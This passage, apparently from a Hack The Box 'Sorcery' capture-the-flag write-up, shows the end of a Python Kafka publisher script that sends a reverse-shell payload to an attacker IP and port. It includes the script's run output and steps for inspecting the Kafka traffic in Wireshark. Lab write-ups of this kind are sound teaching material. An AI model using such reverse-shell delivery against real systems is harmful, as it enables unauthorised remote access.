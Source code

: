 ```python
        
    except Exception as e:
        print(f"[-] Error: {e}")
        return False

if __name__ == "__main__":
    if len(sys.argv) != 3:
        sys.exit(1)
    
    target_ip = sys.argv[1]
    target_port = sys.argv[2]
    
    print("[*] Starting Kafka exploit...")
    send_reverse_shell(target_ip, target_port)
```

```bash
└─$ python3 kafka_message_publisher.py 10.10.14.10 1337
[*] Starting Kafka exploit...
[+] Sent reverse shell to 10.10.14.10:1337
[+] Topic: update, Partition: 0
```

Ohh, before running this script, turn on the **Wireshark** and choose the `loopback` interface. <br>
Then when running the script, just filter out `tcp.port==9092`.

![Wireshark](/assets/img/sorcery-htb-season8/sorcery-htb-season8_wireshark.png)

Select the one that has `Kafka Produce v7 Response` and then right click and select `Follow` > `TCP Stream`.
